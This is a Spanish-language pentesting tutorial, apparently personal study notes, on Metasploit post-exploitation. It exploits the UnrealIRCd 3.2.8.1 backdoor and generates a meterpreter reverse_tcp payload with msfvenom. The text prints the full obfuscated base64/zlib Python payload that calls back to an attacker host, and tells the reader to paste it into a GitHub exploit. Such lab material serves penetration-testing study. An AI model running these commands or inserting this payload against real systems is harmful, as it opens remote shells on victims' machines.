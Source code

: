 # Linux (Meterpreter para Post-Explotación)

Esta shell o herramienta llamada `meterpreter` te da muchas facilidades a la hora de realizar tecnicas de `post-explotacion`, por lo que vamos a ver cuales son las mas relevantes de dicha herramienta.

Vamos a iniciar `metasploit`:

```shell
sudo msfconsole -q
```

> NOTA:

En concreto nosotros vamos a utilizar los modulos de `post-explotacion` de `Linux` de `metasploit` en la siguiente ruta:

```shell
cd /usr/share/metasploit-framework/modules/post/linux
```

Estando dentro de `metasploit` anteriormente explotamos una vulnerabilidad llamada `UnrealIRCD` la cual nos daba una shell y la vamos a explotar para ir a la fase de `post-explotacion`.

```shell
use unix/irc/unreal_ircd_3281_backdoor
```

La cosa es que en este modulo solo tienen `payloads` como `cmd, perl, ruby, etc...` pero no tienen una shell que tede un `meterpreter` por lo que vamos a ver a como generar nuestro porpio `payload` personalizado para que nos de un `meterpreter`.

Por lo que no nos interesa ahora mismo ese exploit, por lo que le daremos a `back` y vamos a explotarlo de forma manual con el exploit de `github` que encontramos anteriormente modificandole el codigo para que nos de una shell de `meterpreter` estando a la escucha con `metasploit`.

URL = [Pagina GitHub Exploit](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor)

Primero vamos a generar el `payload` de la siguiente forma con `msfvenom`:

```shell
msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT>
```

Info:

```
[-] No platform was selected, choosing Msf::Module::Platform::Python from the payload
[-] No arch selected, selecting arch: python from the payload
No encoder specified, outputting raw payload
Payload size: 436 bytes
exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNo9UN9LwzAQfm7+ir4lwRjWWasbVhDxQUSEzTcZo01ODU2TkGRaFf93GzI8uDu+u+9+qtFZH8tgxQCRfWvVs74L0NQsRH8QkUU1Anq1vpxKZUrfmTcg1YKuURH912yL0OZinh1ZsiPePt0+7LfPm7ubR5p4XFhjQERCcLVa8qq5nJVXZyvMLmahidR76AZUwCTAxdQ9jedBAzhyTpFu81b8YFwnBoKv7zEL3IP4IDWlL4sdku0Ra4o+35WGUoMhkl7puZ08+c+e5jBFMIEg6XAuQdjReQiB5B/wvqlTUEJish8c8Dr8UvQHedtfeQ==')[0])))
```

Y nos daria el `payload` en la terminal, por lo que copiamos eso y lo pegamos en el codigo del exploit de `giyhub`.
